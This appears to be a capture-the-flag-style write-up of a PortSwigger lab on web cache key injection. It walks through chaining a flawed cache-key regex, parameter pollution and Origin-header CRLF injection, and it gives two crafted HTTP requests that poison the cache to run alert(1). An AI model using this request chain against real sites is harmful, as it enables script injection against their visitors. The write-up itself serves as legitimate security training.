 # Cache key injection

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-cache-key-injection) contains multiple independent vulnerabilities, including cache key injection. A user regularly visits this site's home page using Chrome. 

## Reproduction

1. The redirect at `/login` excludes the parameter `utm_content` from the cache key using a flawed `regex`. This allows appending arbitrary unkeyed content to the `lang` parameter:

```text
/login?lang=en?utm_content=fire
```

2. The page at `/login/` has an import from `/js/localize.js`. This is vulnerable to client-side parameter pollution via the `lang` parameter because it doesn't URL-encode the value.
3. The login page references an endpoint at `/js/localize.js` that is vulnerable to response header injection via the `Origin` request header, provided the `cors` parameter is set to `1`.
4. Use the `Pragma: x-get-cache-key` header to identify that the server is vulnerable to cache key injection, meaning the header injection can be triggered via a crafted URL.
5. Combine these four behaviours by poisoning the cache with following two requests:

```text
GET /js/localize.js?lang=en?utm_content=z&cors=1&x=1 HTTP/1.1
Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$
```

```text
GET /login?lang=en?utm_content=x%26cors=1%26x=1$$Origin=x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$%23 HTTP/1.1
```

6. This will poison `/login?lang=en` such that it redirects to a login page with a poisoned localisation import that executes `alert(1)`, solving the lab.

## PoC

```{raw} html
<iframe width="560" height="315"
src="https://tube.spdns.org/videos/embed/796aca82-1228-4212-afb3-7e5ae093c6bc"
title="Cache key injection"
frameborder="0"
allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture"
allowfullscreen
sandbox="allow-same-origin allow-scripts allow-popups"
style="width: 100%; height: 360px; border: none;"></iframe>
```

----

## Exploitability

An attacker will need to combine the vulnerabilities to execute `alert(1)` in the victim's browser. and make use of the `Pragma: x-get-cache-key` header in order to solve this lab. 
